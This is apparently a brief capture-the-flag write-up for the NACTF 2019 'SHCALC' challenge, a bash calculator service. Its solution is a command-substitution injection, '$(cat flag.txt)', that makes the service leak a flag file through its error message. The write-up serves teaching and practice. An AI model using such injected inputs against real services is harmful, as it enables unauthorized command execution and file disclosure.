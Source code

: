 # SHCALC

## Description

John's written a handy calculator app - in bash! Too bad it's not that secure...

Connect at nc shell.2019.nactf.com 31214

## Solution

```
> $(cat flag.txt)
sh: 1: arithmetic expression: expecting EOF: "nactf{3v4l_1s_3v1l_dCf80yOo}"
```
